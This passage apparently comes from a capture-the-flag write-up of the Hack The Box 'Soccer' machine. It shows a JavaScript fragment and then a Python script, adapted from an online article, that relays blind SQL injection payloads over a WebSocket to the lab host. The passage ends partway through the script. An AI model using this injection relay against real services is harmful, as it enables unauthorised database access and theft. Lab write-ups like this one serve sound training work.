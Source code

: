 ```html
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
    </script>
```

After these considerations I googled how a SQLInjection could be done with WebSockets and the first result is an [article](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) which provides details and the following exploit (suitably modified):

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True
```